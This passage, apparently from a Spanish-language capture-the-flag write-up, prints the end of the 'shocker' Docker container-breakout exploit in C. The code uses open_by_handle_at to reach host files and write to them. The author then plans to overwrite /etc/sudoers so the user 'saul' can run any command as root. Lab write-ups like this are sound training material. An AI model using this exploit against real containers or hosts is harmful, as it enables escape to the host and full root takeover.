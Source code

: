 ```C
  };
  fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"
    "[***] The tea from the 90's kicks your sekurity again. [***]\n"
    "[***] If you have pending sec consulting, I'll happily [***]\n"
    "[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");
  read(0, buf, 1);
  // get a FS reference from something mounted in from outside
  if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
    die("[-] open");
  if (find_handle(fd1, argv[1], & root_h, & h) <= 0)
    die("[-] Cannot find valid handle!");
  fprintf(stderr, "[!] Got a final handle!\n");
  dump_handle( & h);
  if ((fd2 = open_by_handle_at(fd1, (struct file_handle * ) & h, O_RDWR)) < 0)
    die("[-] open_by_handle");
  char * line = NULL;
  size_t len = 0;
  FILE * fptr;
  ssize_t read;
  fptr = fopen(argv[2], "r");
  while ((read = getline( & line, & len, fptr)) != -1) {
    write(fd2, line, read);
  }
  printf("Success!!\n");
  close(fd2);
  close(fd1);
  return 0;
}
```

Lo que voy a realizar es ver el archivo `/etc/sudoers` aprovechando esta vulnerabilidad.

Y editar al usuario `saul` para que tenga permisos para ejecutar como `root` cualquier comando. Luego, con el script modificado, intentaré escribir el `/etc/sudoers` y si lo consigo, debería de cerrar sesión en el SSH, iniciar sesión de nuevo y hacer un `sudo su` como el usuario `saul` y convertirme en `root`

Primero compilamos `shocker.c` para leer el archivo `/etc/sudoers`
![Write-up Image](images/Screenshot_30.png)
